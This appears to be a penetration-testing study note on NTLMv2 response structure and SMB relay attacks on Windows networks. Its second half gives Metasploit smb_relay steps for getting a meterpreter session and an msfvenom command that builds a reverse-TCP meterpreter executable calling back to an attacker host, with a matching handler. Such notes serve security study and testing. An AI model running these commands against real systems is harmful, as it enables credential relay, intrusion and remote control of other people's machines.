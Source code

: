 - blob:
	blob signature (4 bytes)
	reserved (4 bytes)
	timestamp (8 bytes)
	client nonce (random 8 bytes)
	unknown (4 bytes)
	target information (variable length)
	unknown (4 bytes)

- NTLMv2 changes:
	dues to timestamp and the client response, the response changes every time
	impossible to create rainbow tables to gather the NT hash or the password from the NTLMv2 response
	dictionary does not make sense as the key is a hash
	the only possible attack is by brute-forcing the HMAC key
	the NTLMv2 hash is bound to a particular server and particular username so its not reusable

- moreover:
	http://davenport.sourceforge.net/ntlm.html#ntlmVersion2
	http://davenport.sourceforge.net/ntlm.html#theNtlmv2Response


#### SMB Relay attacks
	allows the attacker to re-use authentication attempts in order to gain access to a system in the network

- SMB Relay on NTLMv1

```
	msfconsole
	use exploit/windows/smb/smb_relay
	set options
	run
	
```

	// wait to someone connect to our machine
	// this can happen with: backups, patch manegement, updates and so on
	// we will be able to obtain a meterpreter session
	// btw, this only works if the target machines has the **network security: LAN Manager authentication level** set to **Send Lm & NTLM responses**.


#### SMB Relay on NTLMv2
	metasploit smb_relay works well too, but lets use impacket
	https://github.com/coresecurity/impacket

create the payload:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o smbexp.exe
```

create the handler:
```
exploit/multi/handler
set options accordingly with the payload
```

